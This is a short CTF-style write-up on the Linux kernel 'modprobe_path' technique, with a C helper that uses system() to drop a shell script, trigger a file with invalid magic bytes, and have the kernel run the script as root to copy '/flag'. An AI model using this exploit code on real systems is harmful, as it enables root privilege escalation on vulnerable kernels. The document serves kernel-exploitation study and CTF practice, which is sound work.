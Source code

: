 ```yaml
---
date: '2025-01-14T19:30:00Z'
draft: false
title: 'Kpwn tecniques: modprobe_path'
summary: "modprobe_path is a global variable that in most kernels is RW. This variable is contains a path to an executable, do you see where this is going..?"

categories: ["Docs"]
tags: ["kernel", "pwn"]
author: "leo_something"
---
```


## Modbprobe path

When a binary with unknown magic bytes/shebang gets executed the kernel tries to load a module to handle that binary type.

To load this module it uses modprobe, whose path is stored in a **kernel global variable** called `modprobe_path`, which is RW (there are actually some mitigations for this).

Modprobe is **executed as root** using this path. 

If we have an arbitrary write primitive we can trick the kernel into running our own binary/script as root.

#### Exploitation
Write in `modeprobe_path` the path of your binary/script (this should be `<path>/x`).

Then call this function to automate the rest:
```c
void modprobe(char* path){
  int size = strlen(path) + 0x20;
  char flag_dest[size];
  char flag[size];
  char trigger[size];
  char modprobe_sh_script[size];

  snprintf(flag_dest, size, "%s/flag_dest", path);
  snprintf(modprobe_sh_script, size, "%s/x", path);
  snprintf(flag, size, "/flag");
  snprintf(trigger, size, "%s/b", path);


    const char format[102] = {"touch %s;"
        "echo -e '#!/bin/sh\ncat %s > %s' > %s;"
        "echo -e '\xff\xff\xff\xff' > %s;"
        "chmod +x %s; chmod +x %s;"

        "%s;"
        "cat %s;"
    };

    char cmd[sizeof(format) + size*9];

    snprintf(cmd, sizeof(cmd), format, flag_dest, flag, flag_dest, modprobe_sh_script, trigger, modprobe_sh_script, trigger, trigger, flag_dest);
    system(cmd);
}
```
**NOTE:** `path` must be a directory writeable by your user

This function executed the following commands:
- Writes our sh script `<path>/x`
	- the script cats the flag inside a file (`<path>/flag_dest`) readable by the unprivileged user
- Creates a "binary" with unknown magic bytes (0xffffffff)
- Makes our script and the "invalid binary" executable
- Executes the "invalid binary", triggering the use of `modprobe_path`, which is set to our sh script (`<path>/x`). This executes our script with root privileges, the script in turn reads the flag and writes it to a readable location (`<path>/flag_dest`).
- Print the flag from `<path>/flag_dest`

## Useful links
- https://sam4k.com/like-techniques-modprobe_path/